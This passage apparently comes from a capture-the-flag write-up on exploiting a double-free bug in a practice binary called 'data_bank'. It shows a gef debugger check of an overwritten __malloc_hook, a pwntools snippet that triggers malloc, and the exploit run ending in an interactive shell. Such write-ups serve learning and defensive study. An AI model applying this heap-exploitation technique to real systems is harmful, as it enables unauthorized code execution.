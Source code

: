 That is done, let's see the contents of the `__malloc_hook`:-

```r
gef➤  x/xg &__malloc_hook
0x7fd712c2eb10 <__malloc_hook>:	0x00007fd71295a364
gef➤  x/i 0x00007fd71295a364
   0x7fd71295a364 <exec_comm+1140>:	mov    rax,QWORD PTR [rip+0x2d3b4d]        # 0x7fd712c2deb8
```


Now, we just need to trigger the `__malloc_hook`, let's do it by just calling `malloc`:-

```py
p.sendlineafter(">> ", "1")
p.sendlineafter(":\n", "6")
p.sendlineafter(":\n", "10")

```

Running the exploit:-

```bash
 [15:24:23] vagrant@oracle(oracle) doublefree> python3 data_bank.py 
[+] Starting program './data_bank': PID 4433
[*] Analyzing /lib/x86_64-linux-gnu/libc-2.23.so
[*] main_arena:   0x7f5851230b78
[*] LIBC:         0x7f5850e6c000
[*] Switching to interactive mode
$ whoami
vagrant
$ ls
core  data_bank  data_bank.md  data_bank.py
$ 
[*] Interrupted
[*] Stopped program './data_bank'
```

I'll attach the binary and script and one more challenge for you try.